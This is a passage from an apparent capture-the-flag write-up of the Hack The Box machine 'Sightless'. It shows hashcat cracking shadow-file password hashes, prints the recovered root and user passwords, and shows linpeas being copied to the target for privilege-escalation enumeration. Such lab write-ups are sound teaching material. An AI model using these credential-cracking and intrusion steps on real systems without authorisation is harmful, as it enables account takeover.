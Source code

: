 Using `unshadow` and `hashcat`, the hashes were cracked:
```
unshadow passwd shadow > unshadowed
hashcat -m 1800 -a 0 unshadowed /usr/share/wordlists/rockyou.txt
```

```
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:blindside
michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:insaneclownposse
```

Credentials obtained:
- **michael:** insaneclownposse
- **root:** blindside

Logging in via SSH as `michael` allowed retrieval of the user flag.

## Privilege Escalation

To identify potential privilege escalation vectors, I utilized `linpeas.sh`. The script was transferred to the target and made executable using the following commands:
```
scp /home/riminux/linpeas.sh michael@10.10.11.32:/tmp/linpeas.sh
chmod +x linpeas.sh
```

During the enumeration, I discovered some interesting processes related to Google Chrome:
![](/assets/blogimages/Writeups/Hackthebox/Sightless/sightless11.png)

Additionally, I used `ss -ltn` to identify any locally hosted services running on open ports:
![](/assets/blogimages/Writeups/Hackthebox/Sightless/sightless12.png)
